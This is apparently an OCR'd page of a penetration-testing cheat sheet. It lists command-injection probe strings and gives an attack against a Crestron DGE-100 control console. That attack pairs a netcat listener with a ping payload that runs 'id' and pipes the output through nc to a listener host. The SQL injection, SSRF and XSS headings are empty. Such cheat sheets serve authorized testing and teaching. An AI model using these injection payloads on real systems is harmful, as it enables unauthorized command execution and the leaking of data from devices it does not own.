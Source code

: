 ## Command Injection
### Examples to find command injection vulnerability
	-h
	PARAM; echo Injected 
	echo Injected|
	PARAM | echo Injected 
	PARAM || echo Injected 
	PARAM & echo Injected 
	PARAM && echo Injected
	$(echo Injected)
	\`echo Injected\`
	>(Echo Injected)
	Josh;id #

### Creston DGE-100 attack against DGE-100 Control Console 
nc -nlvp 8080
nc 10.10.10.1 41795 
ping $(echo "$(id)" | /system/xbin/nc 192.168.1.1 8080) 

## SQL injection

## SSRF and IMDS

## XSS 